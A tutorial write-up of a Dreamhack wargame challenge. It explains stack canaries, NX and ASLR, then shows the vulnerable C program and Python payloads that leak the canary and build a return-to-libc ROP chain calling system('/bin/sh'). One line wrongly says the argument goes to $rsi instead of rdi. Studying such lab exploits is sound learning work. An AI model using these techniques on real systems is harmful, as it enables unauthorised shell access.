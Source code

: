 ```yaml
---
title: "Return To Library"
published: true
---
```

# Stack Protection: NX and ASLR
Traditional system exploitation often relied on stack overflow attacks. To mitigate this, architects introduced stack canary, which protects the return address on the stack from being written.

However, attackers later found ways to bypass the canary by injecting a shellcode to the stack and changing the return address to point to that shellcode.

To defend against these attacks, NX and ASLR were introduced:
- **NX(No-eXecute)**: Prevents execution of code on the stack.**
- **ASLR(Address Space Layout Randomization)**: Randomizes memory address at runtime, making it harder for attackers to predict the location of critical code or data.

# NX
What happens when the stack is non-executable?
In traditional stack overflow exploits, we would inject shellcode into the stack.
But with NX enabled, we can no longer execute shellcode stored there.
Instead of executing shellcode, we can redirect execution to existing functions like `system("/bin/sh")`. To perform this, we need:

- The address of `system@plt` function in PLT
- A pointer to the string of `/bin/sh`
- A **proper ROP gadget** to setup arguments
- (optional) a `ret` gadget for stack alignment
## Gadget?
Gadget is a short sequence of assembly instructions ending in a `ret` instruction, used to build a Return-Oriented Programming chain. We can find gadget using `ROPgadget --binary ./<target_binary> --re "<instruction>"` command in shell.

## Example: Return to Library

[Dreamhack](https://dreamhack.io/wargame/challenges/353)
```bash
pwndbg> checksec
File:     /home/yeon/dreamhack/rtl/rtl
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Since `./rtl.c` is compiled with NX enabled, we cannot inject and execute shellcode from the stack.

Given c code is as follows:
```c
  7 const char* binsh = "/bin/sh";
  8
  9 int main() {
 10   char buf[0x30];
 11
 12   setvbuf(stdin, 0, _IONBF, 0);
 13   setvbuf(stdout, 0, _IONBF, 0);
 14
 15   // Add system function to plt's entry
 16   system("echo 'system@plt'");
 17
 18   // Leak canary
 19   printf("[1] Leak Canary\n");
 20   printf("Buf: ");
 21   read(0, buf, 0x100);
 22   printf("Buf: %s\n", buf);
 23
 24   // Overwrite return address
 25   printf("[2] Overwrite return address\n");
 26   printf("Buf: ");
 27   read(0, buf, 0x100);
 28
 29   return 0;
 30 }
```

We observe the following:
- `system("echo 'system@plt'")` adds `system@plt` to PLT
- `buf` has vulnerability of stack overflow
- The first `read` leaks the canary
- The second read allows us to overwrite the return address

By inspecting the assembly code of `main` function, we could figure out the structure of stack:
![](https://i.imgur.com/a4qyRmo.png)
> **Question**: Why `?` area is needed?
> It may be related with requirement of stack alignment of `movaps`...

### 1st read: Leak Canary

```python
payload1 =
	b"A" * 0x30 + b"A" * 0x8 + b"\n"
```

We can overwrite the null byte at the beginning of the canary to leak the rest via `printf`. So we send total 0x39 bytes.

### 2nd read: RET Overwrite
We will use a chain of ROP to call system function.
- The first `RET` region indicates `pop rdi; ret` gadget
- `RET+0x8` region indicates `/bin/sh` so that it can be stored in $rsi
- `RET+0x10` region indicates `ret` gadget **to make 16-byte alignment**
- `RET+0x18` region indicates `system@plt`
![](https://i.imgur.com/ulb6CKY.png)
We can write payload as follows:

```python
payload2 =
	b"A" * 0x38 +
	cnry +
	b"B" * 0x8 +
	p64(gadget1_addr) + # pop rdi; ret
	p64(binsh) + # /bin/sh to rdi
	p64(gadget2_addr) + # ret
	p64(system_plt) # system@plt
```



